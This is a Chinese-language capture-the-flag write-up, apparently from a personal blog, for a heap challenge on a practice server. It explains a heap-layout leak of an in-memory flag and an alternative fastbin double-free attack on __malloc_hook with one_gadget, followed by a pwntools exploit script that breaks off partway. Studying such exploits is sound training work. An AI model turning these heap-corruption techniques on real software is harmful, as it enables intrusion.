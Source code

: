 在flag已经读入内存的情况下，这道题是很简单的，就是一个基础的堆排布，让0x10的header分配到可以写的buffer里面，直接修改指针的值然后show就行了。

如果这道题没有flag在内存中，首先就应该通过上面的这种方法获取libc基址，然后使用fastbin attack，用一次double free分配到`__malloc_hook`，注意修改指针的值应该是`__malloc_hook - 0x23`，原因参见我的这篇文章：[传送门](https://hornos3.github.io/2023/02/28/how2heap-%E6%B7%B1%E5%85%A5%E5%AD%A6%E4%B9%A0-3/)

注意这里不能分配到`__free_hook`，因为fastbin分配之前会检查size字段，而`__free_hook`前面并不存在有效的size字段。然后将`__malloc_hook`改成one_gadget，可惜测试完发现4个one_gadget都不行，于是开始怀疑人生，然后突然就意识到flag在内存中本来就有……

下面的代码注释掉的部分就是不存在flag时的利用方式。

```python
from pwn import *
from LibcSearcher import *
context.log_level = 'debug'

one_gadgets = [0x45216, 0x4526A, 0xF02A4, 0xF1147]

# io = process('./pwn')
io = remote('node4.buuoj.cn', 27127)
elf = ELF('./pwn')

sla = lambda x, y: io.sendlineafter(x, y)
sa = lambda x, y: io.sendafter(x, y)

def add(basize, nasize, bacon, nacon):
	sla(b'> Now please tell me what you want to do :', b'1')
	sla(b'> ba\'s length : ', str(basize).encode())
	sa(b'> ba : ', bacon)
	sla(b'> na\'s length : ', str(nasize).encode())
	sa(b'> na : ', nacon)
	
def delete(idx):
	sla(b'> Now please tell me what you want to do :', b'3')
	sla(b'> Banana ID : ', str(idx).encode())
	
def show(idx):
	sla(b'> Now please tell me what you want to do :', b'4')
	sla(b'> SCP project ID : ', str(idx).encode())
	
add(0x60, 0x60, b'a\n', b'a\n')		# 0
add(0x60, 0x60, b'a\n', b'a\n')		# 1
delete(0)
delete(1)
add(0x18, 0x18, p64(elf.got['puts']) + p64(0x6020A8), b'a')	# 2
show(0)

'''
io.recvuntil(b'Banana\'s ba is ')
puts = u64(io.recv(6) + b'\x00\x00')
log.info('puts: ' + hex(puts))
libc = LibcSearcher('puts', puts)
base = puts - libc.dump('puts')
system = base + libc.dump('system')
__malloc_hook = base + libc.dump('__malloc_hook')
'''

'''
libc = ELF('/lib/x86_64-linux-gnu/libc-2.23.so')
base = puts - libc.symbols['puts']
system = base + libc.symbols['system']
__malloc_hook = base + libc.symbols['__malloc_hook']
'''

'''
io.recvuntil('Banana\'s na is ')
```